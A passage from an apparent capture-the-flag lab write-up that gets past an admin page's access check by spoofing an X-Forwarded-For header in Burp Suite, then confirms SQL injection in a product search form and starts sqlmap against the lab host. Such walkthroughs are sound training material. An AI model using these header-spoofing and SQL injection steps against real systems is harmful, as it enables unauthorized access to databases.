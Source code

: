 Try to access `admin.php` we found during web enumeration.<br>
It looks that to access this page, we need...
1. A header
2. To go through a proxy
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-08-23/2020-08-22-16-56-32.png)

Then, add an HTTP header `X-Forwarded-For` for all traffic.<br>
We can use Burp Suite for this purpose.<br>
The IP address is the one from the HTML comments.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-08-23/2020-08-23-11-01-55.png)

Now we can access the admin console.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-08-23/2020-08-22-16-57-36.png)

Then, try to check if there is any SQL injection.<br>
By posting a single quote, we can find that this search form is suffering SQLi.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-08-23/2020-08-22-17-00-44.png)
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-08-23/2020-08-22-17-01-47.png)

Getting additional information using `sqlmap`.<br>
First, create the following file from Burp Suite.
```shell
root@kali:~# cat request.txt 
POST /search_products.php HTTP/1.1
Host: 10.10.10.167
Content-Length: 23
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.167
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.167/admin.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
X-Forwarded-For: 192.168.4.28

productName=singlequote
```

Run the following command.<br>
We can confirm that this DBMS is MySQL and SQL injection here.
```shell
root@kali:~# sqlmap -r request.txt
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.7#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:47:44 /2020-08-22/

[18:47:44] [INFO] parsing HTTP request from 'request.txt'
[18:47:44] [INFO] resuming back-end DBMS 'mysql' 
[18:47:44] [INFO] testing connection to the target URL
```
